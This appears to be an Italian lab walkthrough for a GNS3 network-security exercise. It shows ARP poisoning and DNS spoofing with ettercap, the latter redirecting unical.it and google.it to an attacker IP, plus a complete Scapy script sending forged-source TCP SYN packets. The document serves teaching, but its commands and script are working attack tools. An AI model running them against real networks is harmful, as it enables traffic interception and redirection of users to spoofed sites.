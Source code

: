 # ARP Poisoning

## Su R1

Prendi nota del mac del router

```bash
# On R1
$ show ip arp
```

## Su DARTH

Installa ettercap su darth

```bash
# On Darth
$ sudo apt update && sudo apt install ettercap-text-only
$ sudo sysctl -w net.ipv4.ip_forward=1


# Edita il file di configurazione di ettercap e
# decommenta la riga che inizia con redir_command_on e redir_command_off
$ sudo nano /etc/ettercap/etter.conf

```

Prendi nota dell'IP e del MAC della vittima (in questo caso alice). Fai una scansione con ettercap e poi premi `spacebar` to enable/disable packets view e `l` (lowercase `L`) per visualizzare le informazioni sui devices trovati. Scegli il tuo target e poi premi `q` per uscire.

```bash
# Scansione completa della rete con ettercap per ottenere informazioni sulla rete
$ sudo ettercap -T

# Esempio di scansione nel mio lab GNS3

Hosts list:

1)	10.0.0.1	CA:01:A9:37:00:06 # Router
2)	10.0.0.2	0C:D1:8F:AD:00:00 #
3)	10.0.0.4	0C:44:2E:4B:00:00 #
4)	10.0.0.20	0C:44:2E:4B:00:00 # Alice
5)	10.0.0.21	0C:D1:8F:AD:00:00 # Bob

```

Con IP/MAC della vittima ora avvia nuovamente ettercap per lanciare l'attacco

```bash
$ sudo ettercap -T -M arp //10.0.0.20/ //10.0.0.21/
```

## Su R1

con v1 stiamo avvelenando la tabella di R1 quindi

```bash
# Verifica della tabella avvelenata
show ip arp
```

## Su BOB

```bash
# verifichiamo che sia andata a buon fine la sostituzione
ping 10.0.0.20 # ip alice
```

## Sulla macchina hosts

- Controlla con Wireshark il traffico all'interno del laboratorio

# DNS Spoofing

## Prerequisiti

- Il laboratorio GNS3 e' il medesimo dell'attacco precedente
- Non e' necessario aver gia' stabilito un ARP poisoning perche' ettercap lo fara' per te dietro le quinte!
- Darth deve avere un web server installato e funzionante (Apache, Nginx, o quello che preferisci)

## Su DARTH

```bash

# Configurazione del DNS Server Malevolo
# Ogni linea ha il seguente formato:
# <Website> <DNS_Query_Type> <Attacker_IP_Address>
# aggiungiamo quelle relative al sito dell'unical
#        unical.it        A       10.0.0.200
#        *.unical.it      A       10.0.0.200
#        www.unical.it    PTR     10.0.0.200

#        google.it        A       10.0.0.200
#        *.google.it      A       10.0.0.200
#        www.google.it    PTR     10.0.0.200
$ sudo nano /etc/ettercap/etter.dns

## Possiamo lanciare l'attacco!
## -T: Modalità interfaccia testuale (senza interfaccia grafica)
## -q: Modalità silenziosa (output minimo)
## -i [interfaccia]: Specifica quale interfaccia di rete utilizzare (ad esempio, eth0, wlan0)
## -M arp: Attiva il poisoning ARP
## /[ip_vittima]//: Specificazione del target per la vittima (primo parametro)
## /[ip_gateway]//: Specificazione del target per il gateway/router (secondo parametro)
## -P dns_spoof: Attiva il plugin di spoofing DNS
##

$ sudo ettercap -T -q -M arp /10.0.0.20// /10.0.0.1// -P dns_spoof

```

## Su ALICE

```bash
$ curl -L google.it
```

## Su BOB

```bash
$ curl -L google.it
```

# IP Spoofing

## Su R1

```bash
show ip arp
```

## Su DARTH

```bash
$ sudo apt install nmap scapy typer # ti serve spazio!
$ sudo nmap -sPn 10.0.0.0/24
$ sudo python3 ip_spoofer.py  <ip-da-spoofare> <ip-destinazione>
```

## Su R1

```bash
show ip arp
```

## Su BOB (se vittima Alice, altrimenti su Alice)

```bash
$ ping 10.0.0.20 # ip alice nel mio caso
```

## Sulla macchina hosts

- Controlla con Wireshark il traffico all'interno del laboratorio

### Codice ip_spoofer.py

```python

#!/usr/bin/env python3
from scapy.all import IP, TCP, send, RandShort
import sys
import time

if len(sys.argv) != 3:
    print(f"Uso: {sys.argv[0]} <ip-da-spoofare> <ip-destinazione>")
    sys.exit(1)

# Se voglio far creadere a Bob che il pacchetto arrivi da Alice
ip_spoofato = sys.argv[1] # Alice
ip_vittima = sys.argv[2] # Bob

count = 0

# RandShort porta sorgente random

try:
    while True:
        pkt = IP(src=ip_spoofato, dst=ip_vittima) / TCP(sport=RandShort(), dport=80, flags="S")
        send(pkt, verbose=0)
        count += 1
        print(f"\rPacchetti inviati: {count}", end="")
        time.sleep(0.5)
except KeyboardInterrupt:
    print(f"\nAttacco terminato. Pacchetti inviati: {count}")

```


